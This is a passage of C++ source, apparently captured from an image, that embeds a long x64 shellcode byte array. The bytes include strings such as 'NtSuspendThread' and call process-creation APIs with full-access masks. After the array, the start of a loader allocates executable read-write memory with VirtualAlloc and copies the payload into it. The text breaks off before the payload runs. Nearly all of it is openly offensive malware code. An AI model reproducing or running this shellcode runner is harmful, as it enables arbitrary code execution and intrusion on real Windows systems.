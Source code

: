 ```cpp
	0x00, 0x48, 0xB8, 0x72, 0x00, 0x6F, 0x00, 0x6D, 0x00, 0x20, 0x00, 0x48,
	0x89, 0x85, 0x00, 0x01, 0x00, 0x00, 0x48, 0xB8, 0xF4, 0x00, 0x66, 0x00,
	0x66, 0x00, 0x65, 0x00, 0x48, 0x89, 0x85, 0x08, 0x01, 0x00, 0x00, 0x48,
	0xB8, 0x6E, 0x00, 0x73, 0x00, 0x69, 0x00, 0x76, 0x00, 0x48, 0x89, 0x85,
	0x10, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x65, 0x00, 0x20, 0x00, 0x50, 0x00,
	0x61, 0x00, 0x48, 0x89, 0x85, 0x18, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x6E,
	0x00, 0x64, 0x00, 0x61, 0x00, 0x00, 0x00, 0x48, 0x89, 0x85, 0x20, 0x01,
	0x00, 0x00, 0x48, 0xC7, 0x85, 0x28, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x48, 0x8D, 0x95, 0xA0, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x28,
	0x02, 0x00, 0x00, 0xFF, 0x95, 0x10, 0x02, 0x00, 0x00, 0x48, 0xC7, 0x85,
	0x38, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xC7, 0x44, 0x24, 0x50,
	0x01, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x48, 0x00, 0x00, 0x00,
	0x00, 0x48, 0xC7, 0x44, 0x24, 0x40, 0x00, 0x00, 0x00, 0x00, 0x48, 0xC7,
	0x44, 0x24, 0x38, 0x00, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x30,
	0x00, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x28, 0x00, 0x00, 0x00,
	0x00, 0x48, 0x8D, 0x85, 0x28, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24,
	0x20, 0x45, 0x33, 0xC9, 0x45, 0x33, 0xC0, 0x48, 0x8D, 0x95, 0x18, 0x02,
	0x00, 0x00, 0x48, 0x8D, 0x8D, 0x38, 0x02, 0x00, 0x00, 0xFF, 0x95, 0x00,
	0x02, 0x00, 0x00, 0x48, 0x8D, 0x85, 0x40, 0x02, 0x00, 0x00, 0x48, 0x8B,
	0xF8, 0x33, 0xC0, 0xB9, 0x58, 0x00, 0x00, 0x00, 0xF3, 0xAA, 0x48, 0xC7,
	0x85, 0x40, 0x02, 0x00, 0x00, 0x58, 0x00, 0x00, 0x00, 0xC7, 0x85, 0x48,
	0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xB8, 0x08, 0x00, 0x00, 0x00,
	0x48, 0x6B, 0xC0, 0x01, 0x41, 0xB8, 0x20, 0x00, 0x00, 0x00, 0xBA, 0x08,
	0x00, 0x00, 0x00, 0x48, 0x8B, 0x4D, 0x00, 0x48, 0x8B, 0x4C, 0x01, 0x28,
	0xFF, 0x95, 0xF8, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xA0, 0x02, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0xA0, 0x02, 0x00, 0x00, 0x48, 0xC7, 0x00, 0x28,
	0x00, 0x00, 0x00, 0xB8, 0x20, 0x00, 0x00, 0x00, 0x48, 0x6B, 0xC0, 0x00,
	0x48, 0x8B, 0x8D, 0xA0, 0x02, 0x00, 0x00, 0xC7, 0x44, 0x01, 0x08, 0x05,
	0x00, 0x02, 0x00, 0xB8, 0x20, 0x00, 0x00, 0x00, 0x48, 0x6B, 0xC0, 0x00,
	0x0F, 0xB7, 0x8D, 0x18, 0x02, 0x00, 0x00, 0x48, 0x8B, 0x95, 0xA0, 0x02,
	0x00, 0x00, 0x48, 0x89, 0x4C, 0x02, 0x10, 0xB8, 0x20, 0x00, 0x00, 0x00,
	0x48, 0x6B, 0xC0, 0x00, 0x48, 0x8B, 0x8D, 0xA0, 0x02, 0x00, 0x00, 0x48,
	0x8B, 0x95, 0x20, 0x02, 0x00, 0x00, 0x48, 0x89, 0x54, 0x01, 0x18, 0x48,
	0xC7, 0x85, 0xB0, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0xA0, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x50, 0x48, 0x8D,
	0x85, 0x40, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x48, 0x48, 0x8B,
	0x85, 0x38, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x40, 0xC7, 0x44,
	0x24, 0x38, 0x00, 0x00, 0x00, 0x00, 0xC7, 0x44, 0x24, 0x30, 0x00, 0x00,
	0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x28, 0x00, 0x00, 0x00, 0x00, 0x48,
	0xC7, 0x44, 0x24, 0x20, 0x00, 0x00, 0x00, 0x00, 0x41, 0xB9, 0xFF, 0xFF,
	0x1F, 0x00, 0x41, 0xB8, 0xFF, 0xFF, 0x1F, 0x00, 0x48, 0x8D, 0x95, 0xB0,
	0x02, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0xA8, 0x02, 0x00, 0x00, 0xFF, 0x95,
	0x08, 0x02, 0x00, 0x00, 0x89, 0x85, 0xB8, 0x02, 0x00, 0x00, 0x48, 0xB8,
	0x4E, 0x74, 0x53, 0x75, 0x73, 0x70, 0x65, 0x6E, 0x48, 0x89, 0x45, 0x10,
	0x48, 0xB8, 0x64, 0x54, 0x68, 0x72, 0x65, 0x61, 0x64, 0x00, 0x48, 0x89,
	0x45, 0x18, 0x48, 0x8D, 0x55, 0x10, 0x48, 0x8B, 0x8D, 0xE8, 0x01, 0x00,
	0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xC0, 0x02,
	0x00, 0x00, 0x33, 0xD2, 0x48, 0xC7, 0xC1, 0xFE, 0xFF, 0xFF, 0xFF, 0xFF,
	0x95, 0xC0, 0x02, 0x00, 0x00, 0x48, 0x8D, 0xA5, 0x58, 0x03, 0x00, 0x00,
	0x5F, 0x5D, 0xC3 };

unsigned int sc_len = sizeof(sc);

int main(void) {
    void* my_sc_mem; // pointer to memory buffer for payload
    HANDLE hthread;

    // Allocate a memory buffer for payload with permission RWX
	my_sc_mem = VirtualAlloc(0, sc_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // copy payload to allocated buffer using memcpy(), you can also use RtlMoveMemory()
    memcpy(my_sc_mem, sc, sc_len);

```